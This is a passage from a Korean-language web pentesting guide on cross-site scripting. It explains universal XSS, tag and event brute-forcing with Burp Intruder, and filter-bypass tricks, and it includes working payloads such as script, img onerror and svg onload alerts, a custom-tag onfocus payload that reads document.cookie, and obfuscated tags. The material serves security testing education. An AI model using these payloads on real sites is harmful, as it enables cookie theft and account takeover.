 ### **Universal XSS**

이러한 종류의 XSS는 **어디서나** 발견될 수 있습니다. 이것들은 웹 애플리케이션의 클라이언트 공격뿐만 아니라 **어떤** **컨텍스트**에서도 의존하지 않습니다. 이러한 종류의 **임의의 JavaScript 실행**은 심지어 **RCE**를 얻거나, 클라이언트 및 서버에서 **임의의 파일을 읽을 수 있도록 악용**될 수 있습니다.\
일부 **예시**:

{% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}

{% content-ref url="../../network-services-pentesting/pentesting-web/electron-desktop-apps/" %}
[electron-desktop-apps](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endcontent-ref %}

## WAF 우회 인코딩 이미지

![from https://twitter.com/hackerscrolls/status/1273254212546281473?s=21](../../.gitbook/assets/eaubb2ex0aerank.jpg)

## 원시 HTML 내부 삽입

당신의 입력이 **HTML 페이지 내부에 반영**되거나 이 문맥에서 HTML 코드를 이스케이프하고 삽입할 수 있는 경우, **첫 번째** 해야 할 일은 `<`를 악용하여 새 태그를 만들 수 있는지 확인하는 것입니다: 그 **문자**를 **반영**하고 HTML이 인코딩되었는지, 삭제되었는지 또는 변경 없이 **반영**되는지 확인하십시오. **마지막 경우에만 이 케이스를 악용**할 수 있습니다.\
이 경우에는 블랙/화이트리스트가 사용되지 않는다면, 다음과 같은 페이로드를 사용할 수 있습니다:
```html
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
```
하지만, 태그/속성 블랙/화이트리스트가 사용 중이라면, **생성할 수 있는 태그를 무차별 대입(brute-force)**해야 합니다.\
**허용된 태그를 찾은 후**, 발견한 유효한 태그 내에서 **속성/이벤트를 무차별 대입(brute-force)**하여 어떻게 공격할 수 있는지 확인해야 합니다.

### 태그/이벤트 무차별 대입

[**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)로 이동하여 _**Copy tags to clipboard**_를 클릭합니다. 그런 다음, Burp Intruder를 사용하여 모든 태그를 보내어 WAF가 악성으로 감지하지 않은 태그가 있는지 확인합니다. 사용할 수 있는 태그를 발견한 후, 유효한 태그를 사용하여 **모든 이벤트를 무차별 대입**할 수 있습니다(동일한 웹 페이지에서 _**Copy events to clipboard**_를 클릭하고 이전과 동일한 절차를 따릅니다).

### 사용자 정의 태그

유효한 HTML 태그를 찾지 못했다면, `onfocus` 속성을 사용하여 JS 코드를 실행할 **사용자 정의 태그를 생성**해볼 수 있습니다. XSS 요청에서 URL을 `#`로 끝내어 페이지가 **해당 객체에 초점을 맞추고** 코드를 **실행**하도록해야 합니다:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### 블랙리스트 우회

만약 어떤 종류의 블랙리스트가 사용 중이라면 몇 가지 어리석은 트릭으로 우회해 볼 수 있습니다:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
```